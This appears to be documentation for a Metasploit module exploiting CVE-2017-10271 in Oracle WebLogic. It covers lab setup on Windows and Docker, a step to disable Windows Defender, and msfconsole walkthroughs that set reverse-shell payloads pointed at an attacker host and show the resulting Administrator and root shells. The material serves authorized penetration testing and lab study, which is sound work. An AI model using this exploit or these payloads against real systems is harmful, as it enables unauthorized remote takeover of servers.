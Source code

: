 # Description

This module works leverages [CVE-2017-10271](https://nvd.nist.gov/vuln/detail/CVE-2017-10271) against Oracle WebLogic Server's  Web Service Atomic Transaction API a XML SOAP request to create a `java.lang.ProcessBuilder` object to provide unauthenticated arbitrary command execution.  A command line can be acquired through the use of `cmd/unix/reverse_python`.

Note that the TARGET must be set to match either a Windows or Unix-based host.  If the TARGET variable is set improperly, a log entry will be generated on a vulnerable server, but the server will not crash.  For example, a Linux payload sent to a Windows server will output:

```
java.io.IOException: Cannot run program "/bin/sh": CreateProcess error=2, The system cannot find the file specified
Continuing ...
```

## Vulnerable Application

Oracle WebLogic server versions 10.3.6.0.0, 12.1.3.0.0, 12.2.1.1.0 and 12.2.1.2.0 with access to Web Services Atomic Transaction (WS-AT) endpoints are vulnerable to unauthenticated arbitrary command execution.

### Windows: Setting up a vulnerable application

We successfully tested this exploit against a fully-patched, Windows 10 (x64) target.  Since WebLogic is resource intensive, consider providing four cores and 8GB of RAM.

1. [Download](http://www.oracle.com/technetwork/middleware/weblogic/downloads/wls-main-097127.html) Oracle WebLogic Server 10.3.6, using the "Windows x86 with 32-bit JVM" (`wls1036_win32.exe`).
2. Run the installer.  (See [here] for detailed instructions.)  You may be prompted to install a Java Development Kit (JDK).  [JDK 8u151 x64](http://www.oracle.com/technetwork/java/javase/downloads/jdk8-downloads-2133151.html) was verified working.
3. Windows Defender will block the payload from executing, so you may need to [temporarily](https://support.microsoft.com/en-us/help/4027187/windows-turn-off-windows-defender-antivirus) or [permanently](https://www.windowscentral.com/how-permanently-disable-windows-defender-windows-10) disable it.
4. Run the configuration wizard and [create a new weblogic domain](https://docs.oracle.com/cd/E29542_01/web.1111/e14140/newdom.htm#WLDCW192).  Domain names and credentials are irrelevant.  At the conclusion of the wizard, click "Start Admin Server".
5. The `startWebLogic.cmd` should run immediately after the installer and present logging output.  Once running, the window should output a line similar to the following
```
<Jan 11, 2018 1:30:49 PM CST> <Notice> <WebLogicServer> <BEA-000365> <Server state changed to RUNNING>
<Jan 11, 2018 1:30:49 PM CST> <Notice> <WebLogicServer> <BEA-000360> <Server started in RUNNING mode>
```

### Windows: Attacking a vulnerable application

Attack the above Windows server using the `exploit/multi/http/oracle_weblogic_wsat_deserialization_rce`:

```
msf > use exploit/multi/http/oracle_weblogic_wsat_deserialization_rce
msf exploit(multi/http/oracle_weblogic_wsat_deserialization_rce) > set RHOST [IP address of your target]
msf exploit(multi/http/oracle_weblogic_wsat_deserialization_rce) > set TARGET 0
msf exploit(multi/http/oracle_weblogic_wsat_deserialization_rce) > set PAYLOAD cmd/windows/reverse_powershell
msf exploit(multi/http/oracle_weblogic_wsat_deserialization_rce) > set LHOST [IP address of your attacker]
msf exploit(multi/http/oracle_weblogic_wsat_deserialization_rce) > run

[*] Started reverse TCP handler on 192.168.108.1:4444
[*] Command shell session 1 opened (192.168.108.1:4444 -> 192.168.108.132:50060) at 2018-01-11 11:48:16 -0600

Microsoft Windows [Version 10.0.16299.192]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Oracle\Middleware\user_projects\domains\admindomain>whoami
weblogic-server\Administrator
```

### Unix: Setting up a vulnerable environment

1. If necessary, install Docker.io.  [These instructions](https://www.ptrace-security.com/2017/06/14/how-to-install-docker-on-kali-linux-2017-1/) were tested on a Kali 2017.3 VM:

```
apt-key adv --keyserver hkp://p80.pool.sks-keyservers.net:80 --recv-keys 58118E89F3A912897C070ADBF76221572C52609D
echo 'deb https://apt.dockerproject.org/repo debian-stretch main' > /etc/apt/sources.list.d/docker.list
apt update
apt-get install docker-engine
service docker start
docker run hello-world
```

2. Install a container running Ubuntu 16.04 and WebLogic 10.3.6.0:
```
docker run -d -p7001:7001 -p80:7001 kkirsche/cve-2017-10271
```

3. Confirm that the container is up.
```
docker ps
```

### Unix: Attacking a vulnerable application

Attack the above Unix server using the `exploit/multi/http/oracle_weblogic_wsat_deserialization_rce`:

```
msf > use exploit/multi/http/oracle_weblogic_wsat_deserialization_rce
msf exploit(multi/http/oracle_weblogic_wsat_deserialization_rce) > set RHOST [IP address of the target]
msf exploit(multi/http/oracle_weblogic_wsat_deserialization_rce) > set TARGET 1
msf exploit(multi/http/oracle_weblogic_wsat_deserialization_rce) > set PAYLOAD cmd/unix/reverse_python
msf exploit(multi/http/oracle_weblogic_wsat_deserialization_rce) > set LHOST [IP address of the attacker]
msf exploit(multi/http/oracle_weblogic_wsat_deserialization_rce) > run

[*] Started reverse TCP handler on 192.168.108.1:4444
[*] Command shell session 5 opened (192.168.108.1:4444 -> 192.168.108.129:51312) at 2018-01-11 11:46:49 -0600

id
uid=0(root) gid=0(root) groups=0(root)
```

# Credits
Documentation originally written by Aaron Soto (@asoto-r7) and was edited by Kevin Kirsche (@kkirsche).
